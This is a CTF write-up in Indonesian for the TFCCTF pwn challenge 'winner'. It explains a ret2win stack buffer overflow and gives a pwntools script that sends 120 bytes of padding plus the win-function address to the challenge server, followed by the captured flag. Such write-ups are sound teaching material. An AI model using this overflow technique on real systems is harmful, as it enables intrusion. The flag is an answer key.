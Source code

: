 ## winner

![Challenge Picture](./attachments/winner.png)

## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do?

[winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec

![checksec](./attachments/checksec.png)

2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi

![error](./attachments/libcerror.png)

![pwninit](./attachments/pwninit.png)

3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama

![program](./attachments/program.png)

4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win

![win](./attachments/win_func.png)

5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa ini vuln ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer

![gdb](./attachments/gdb.png)

8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan

![getenvaddr](./attachments/getenv.png)

10. Kita jalankan script tersebut, dan ketemu flagnya

```properties
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`